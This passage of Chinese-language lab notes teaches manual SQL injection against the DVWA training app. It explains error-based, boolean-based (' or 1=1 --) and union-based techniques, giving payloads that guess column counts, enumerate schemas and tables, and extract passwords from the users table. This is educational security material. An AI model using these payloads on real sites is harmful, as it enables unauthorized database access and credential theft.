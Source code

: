 查询所有的字段：

```mysql
mysql> select COLUMN_NAME from information_schema.columns;
mysql> select COLUMN_NAME from information_schema.columns where table_schema='dvwa' and table_name='users';
# 查询某个库某个表的字段
```

让表名 TABLE_NAME 字段，按照库名 TABLE_SCHEMA 字段分组

```mysql
mysql> select TABLE_SCHEMA,GROUP_CONCAT(TABLE_NAME) from information_schema.TABLES GROUP BY TABLE_SCHEMA\G;
```

### 2.手动注入

1.基于错误的注入

- 错误注入的思路是通过构造特殊的sql语句，根据得到的错误信息，确认sql注入点；

- 通过数据库报错的信息，也可以探测到数据库的类型和其他有用的信息；

- 通过输入单引号，触发数据库异常，通过异常日志诊断数据库类型，例如这里是MySQL数据库。

2.基于布尔的注入

```mysql
原始语句：
mysql> select first_name,last_name from dvwa.users where user_id='';
SQL注入语句解析： '  or 1=1 --     # 单引号（'） 为了闭合前面的条件
语句变成：
mysql> select first_name,last_name from dvwa.users where user_id='  '  or 1=1 -- ';
```

3.基于union的注入

UNION语句用于联合前面的select查询语句，合并查询更多信息；

```mysql
# 首先猜测数据库列数
' union select 1 -- '
' union select 1,2 -- '
' union select 1,2,3 -- '
' union select 1,2,3,4 -- '
mysql> select first_name,last_name from dvwa.users where user_id=' ' union select 1,2 -- ' ';

# 查询所有的库名
'union select TABLE_SCHEMA,1 from information_schema.tables -- ';
mysql> select first_name,last_name from dvwa.users where user_id=' ' union select TABLE_SCHEMA,1 from information_schema.tables -- ' ';

# 查询库中所有表名
'union select TABLE_NAME,1 from information_schema.tables -- ' ;
mysql> select first_name,last_name from dvwa.users where user_id=' 'union select TABLE_NAME,1 from information_schema.tables -- ' ';

# 获取库名
'union select database(), 1 -- ' ;

# 如果想看多个字段的值
mysql> select first_name,last_name from dvwa.users where user_id=' ' union select password, concat(first_name,' ',last_name,' ',user) from users -- '';

```
